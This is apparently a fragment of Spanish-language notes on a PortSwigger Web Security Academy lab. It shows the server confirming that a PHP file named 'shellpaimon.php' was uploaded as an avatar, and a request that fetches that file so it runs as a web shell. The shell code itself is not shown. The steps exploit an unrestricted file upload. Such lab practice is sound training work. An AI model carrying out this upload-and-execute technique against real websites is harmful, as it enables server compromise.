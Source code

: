 ```python

RESPONSE:



HTTP/2 200 OK
Date: Sun, 28 Jan 2024 20:29:25 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 136

The file avatars/shellpaimon.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>









INVESTIGANDO EN LOS ARCHIVOS CUANDO SE SUBE; UNA MINI IMAGEN VIENDO EN EL HTML VEMOS QUE MARCA QUE SE CARGA CESTA IMAGEN CON LA SIGUIENTE RUTA:



<img src="/files/avatars/hacker.php" class="avatar">




PROBAMOS CON ESTA REQUESTS:




GET files/avatars/shellpaimon.php HTTP/2
Host: 0aab0075047886d0810e5c5600eb0033.web-security-academy.net
Cookie: session=pVpKMVMQHqU2KXRVSYzl19ckNErGsrDq
Content-Length: 0
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aab0075047886d0810e5c5600eb0033.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLWJjSqOd0tA05tAV
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aab0075047886d0810e5c5600eb0033.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br



```